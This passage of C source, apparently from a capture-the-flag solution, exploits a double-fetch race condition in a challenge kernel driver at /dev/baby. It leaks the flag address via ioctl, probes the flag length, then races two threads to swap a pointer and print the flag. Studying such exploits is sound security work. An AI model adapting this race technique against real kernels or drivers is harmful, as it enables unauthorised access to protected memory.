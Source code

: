 ```c
	}
   fclose(stream);
   return result;
}

void race_condition_user()
{
	while(!done)
	{
		buf->flag = flag_addr;
	}
}
void race_condition_kernel()
{
	for(int i=0;i<0x1000;i++)
	{
		if(ioctl(fd,0x1337,buf)==0)
		{
			printf("[+] Done at %d times\n",i+1);
			break;
		}
		buf->flag = tmp;
	}
	done = 1;
}


int main()
{
	pthread_t pt1;
	pthread_t pt2;

	if((fd = open("/dev/baby",2))<0)
	{
		printf("[!] open failure");
	}


	ioctl(fd,0x6666,1);
	flag_addr = getaddr();
	printf("[+] flag addr => 0x%llx\n",flag_addr);

	buf = malloc(sizeof(struct user_flag));
	buf->flag = malloc(0x30);
	tmp = buf->flag;

	for(int i=1;i<0x100;i++)
	{
		buf->len = i;
		if(ioctl(fd,0x1337,buf) != 14)
		{
			printf("[+] flag length => %d\n",buf->len);
			break;
		}
	}

	pthread_create(&pt2,NULL,race_condition_kernel,NULL);
	pthread_create(&pt1,NULL,race_condition_user,NULL);

	pthread_join(pt1,NULL);
	pthread_join(pt2,NULL);

	printf("[+] %s\n",getflag());
```